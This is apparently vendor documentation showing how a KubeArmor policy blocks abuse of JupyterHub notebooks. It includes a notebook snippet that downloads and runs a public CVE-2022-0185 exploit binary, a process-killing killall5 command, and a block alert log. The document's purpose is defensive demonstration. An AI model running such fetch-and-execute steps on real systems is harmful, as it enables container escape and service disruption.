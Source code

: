 ```yaml
---
title: Jupyter Notebook
description: AccuKnox can help in securing Jupyter Notebook by preventing remote command injection and unauthorized access to kubernetes resources.
---
```


# Jupyter Notebook

JupyterHub brings the power of notebooks to groups of users. It gives users access to computational environments and resources without burdening the users with installation and maintenance tasks. While this is a great model, attackers, or unethical users might take undue advantage of this model. The very nature of the Jupyter notebook is to allow users to do remote command/code execution.

<!-- TODO -->
<!-- <iframe width="560" height="315" src="https://www.youtube.com/embed/rMc-fV5kzvs" frameborder="0" allowfullscreen></iframe> -->


Remote Command Injection is just the start. Left unchecked, the attacker can gain unauthorized access to the kubernetes resources, exfiltrate data and mount supply chain attacks to name a few.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-0.png)

### **Insecure Shell**

On a shell of jupyter notebook, any of the binaries are allowed to execute by default. If we try to execute some system binaries, it is observed that there is no restriction to do so. For example, consider the ```killall5``` system binary.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-1.png)

Executing ```killall5``` in Jupyter notebook isn’t restricted. The binary terminates all running processes and even affects the kubernetes environment as we can observe the pod getting restarted as the container crashes.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-2.png)

### **Remote Code Injection**

Jupyter notebook by nature allows remote code injection and execution of binaries from any source. To demonstrate this, an exploit for CVE-2022-0185 can be used as provided below:

```sh
!touch exploit
import urllib.request
urllib.request.urlretrieve("https://github.com/nyrahul/CVE-2022-0185/raw/master/exploit", "exploit")
!chmod +x exploit
!./exploit
```

On running the above in the notebook, we can see the exploit binary getting executed without any resistance.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-3.png)

Such an open environment is not desirable and AccuKnox can help with restricting this behavior by the use of KubeArmor policies.

### **Attack Prevention**

The following policy can be used to protect the Jupyter Notebook:

```sh
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: protect-jupyter
  namespace: jupyter
spec:
  selector:
    matchLabels:
      app: jupyterhub
      component: singleuser-server
  network:
    matchProtocols:
    - fromSource:
      - path: /usr/local/bin/python3.11
      protocol: udp
    - fromSource:
      - path: /usr/local/bin/python3.11
      protocol: tcp
  file:
    matchDirectories:
    - dir: /
      recursive: true
    - dir: /usr/local/bin/
      readOnly: true
    - dir: /bin/
      readOnly: true
    - dir: /usr/bin/
      readOnly: true
  process:
    matchDirectories:
    - dir: /usr/local/bin/
    - dir: /usr/bin/
    - dir: /bin/
  action: Allow
```

The above KubeArmor policy

- Allows only python to use network primitives

- Allows only read access to ```/usr/local/bin/``` and ```/bin/``` folders

- Allows execution only from ```/usr/local/bin/``` and ```/bin/``` folders

### **Preventing exploitation by using AccuKnox Zero Trust CNAPP**

**Step 1**:  To create the policy Navigate to Runtime Protection → Policies. Then select ***Create Policy*** option from the screen.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-4.png)

**Step 2**: In the policy editor tool create/upload the above policy. Select the Cluster, namespace, save and then select **Save to workspace** option.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-5.png)

**Step 3**: Apply the policy by clicking on the three dots next to the saved policy and selecting ***Apply Policy***.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-6.png)

**Step 4**: Since this is an allow based policy, to effectively make use of it, we’ll need to set the default posture to block.

- **Step 4.1**: Navigate to Inventory → Cloud Workloads. Select the cluster that has jupyterhub deployed and click on **View Workloads**

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-7.png)

- **Step 4.2**: Click on info at the top of the namespace where jupyterhub is deployed. Then select **Edit** in the pop up that opens

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-8.png)

- **Step 4.3**: Click on the slider to the left of Process/File to shift to the default deny mode. A green popup appears on successful update.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-9.png)

**Step 5**: Now try executing ```!killall5``` in the jupyter notebook instance.

Try downloading and executing the exploit of CVE-2022-0185 with the script that was introduced above.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-10.png)

Alerts are generated for the attempts to exploit:

```sh
root:
  Action:Block
  ClusterName:gke-demo
  ContainerID:36e9a4bcf13b3e72aac683dc864414f7d122792b9f8d734f8b230a588cdfdb05
  ContainerImage:quay.io/jupyterhub/k8s-singleuser-sample:3.3.5@sha256:a839b70b9061119ef4117f37f25133d68294c764ae1c1048726c3e65b809d8eb
  ContainerName:notebook
  Cwd:/
  Data:lsm=SECURITY_BPRM_CHECK
  Enforcer:BPFLSM
  HostName:gke-do-637-cluster-pool-1-6a8519c6-d7x3
  HostPID:3410014
  HostPPID:3410013
  Labels:hub.jupyter.org/servername=,hub.jupyter.org/username=user1,release=jupyter-release,app=jupyterhub,chart=jupyterhub-3.3.5,component=singleuser-server,heritage=jupyterhub,hub.jupyter.org/network-access-hub=true
  NamespaceName:jupyter
  Operation:Process
  Owner:
    Name:jupyter-user1
    Namespace:jupyter
    Ref:Pod
  PID:49
  PPID:48
  ParentProcessName:/bin/dash
  PodName:jupyter-user1
  PolicyName:DefaultPosture
  ProcessName:/home/jovyan/exploit
  Resource:/home/jovyan/exploit
  Result:Permission denied
  Source:/bin/dash
  Timestamp:1712060619
  Type:MatchedPolicy
  UID:1000
  cluster_id:25444
  component_name:kubearmor
  instanceGroup:0
  instanceID:0
  workload:1
```

The result is permission denied for both as the policy applied does not allow any process to execute other than the ones present in ```/usr/local/bin```, ```/usr/bin/``` and ```/bin/``` directories. In addition, since the policy also prevents write to these directories, the jupyter environment is shielded from execution of malicious code by attackers.